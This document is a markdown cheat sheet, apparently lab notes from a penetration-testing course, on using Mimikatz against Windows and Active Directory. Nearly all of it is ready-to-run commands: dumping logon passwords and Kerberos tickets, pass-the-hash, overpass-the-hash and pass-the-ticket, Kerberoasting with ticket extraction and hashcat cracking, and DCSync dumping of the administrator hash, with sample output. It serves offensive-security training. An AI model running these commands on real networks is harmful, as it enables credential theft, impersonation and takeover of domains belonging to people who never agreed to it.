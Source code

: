 ```yaml
---
tags:
  - windows
  - PtH
  - PtT
  - kerberoasting
  - dcsync
---
```

# Modules
## Logon Passwords
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit
```
## Export Tickets
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit
```
# Pass the Hash
Following are required:
- `/user` to authenticate as
- `/rc4` or `/NTLM` hash of the user's password.
- `/domain` the user to impersonate belongs to. If it's local user account, use the computer name, localhost, or a dot (.).
- `/run` - Program to run with the user's context (default cmd.exe).
```powershell
PS > mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<RC4/NTLM HASH> /domain:<domain> /run:cmd.exe" exit
```

# Pass the Key / OverPass the Hash
## Extract Kerberos Keys
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

```powershell
PS > mimikatz.exe privilege::debug "/domain:inlanefreight.htb /user:plaintext /ntlm:<HASH>" exit
```

```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"' exit
```
>**Note:** Instead of opening mimikatz.exe with `cmd.exe` and exiting to get the ticket into the current command prompt, we can use the  `misc` module to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

>**Note:** Mimikatz requires administrative rights for Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

# Powershell Remoting with PtT
```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"' exit
PS > Enter-PSSession -ComputerName DC01
```
# Kerberoasting
## Extract TGS Ticket from Memory
If the TGS ticket is in memory (from [[SetSPN]] for example), extract it:
```cmd-session
mimikatz # base64 /out:true
mimikatz # kerberos::list /export

<SNIP>
[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFO
RUZSRUlHSFQuTE9DQUyiOzA5oAMCAQKhMjAwGwhNU1NRTFN2YxskREVWLVBSRS1T
<SNIP>
32UeFiVp60IcdOjV4Mwan6tYpLm2O6uwnvw0J+Fmf5x3Mbyr42RZhgQKcwaSTfXm
LkxPQ0FMqTswOaADAgECoTIwMBsITVNTUUxTdmMbJERFVi1QUkUtU1FMLmlubGFu
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================
   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
<SNIP>
```
>Without `base64 /out:true` command, it will extract the tickets in `.kirbi` files, with which we can directly skip to `kirbi2john` step.
## Prepare the file for Cracking
- Clean the base64 and convert to `.kirbi`:
```shell-session
$ echo "<base64 blob>" |  tr -d \\n >> encoded_file
$ cat encoded_file | base64 -d > sqldev.kirbi
$ kirbi2john sqldev.kirbi
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs.hashcat
$ cat sqldev_tgs_hashcat 

$krb5tgs$23$*sqldev.kirbi*$813149fb<SNIP>8e71a057feeab
```
## Crack the Hash using [[Hashcat]]
```shell-session
$ hashcat -m 13100 sqldev_tgs.hashcat /usr/share/wordlists/rockyou.txt
```
# DCSync
Mimikatz must be ran in the context of the user who has DCSync privileges and only one user can be attacked at a time.
```cmd-shell
> runas /netonly /user:INLANEFREIGHT\adunn powershell
```
```powershell
PS > .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
... SNIP ...
	NTLM: <NTLM-HASH>
... SNIP ...
```


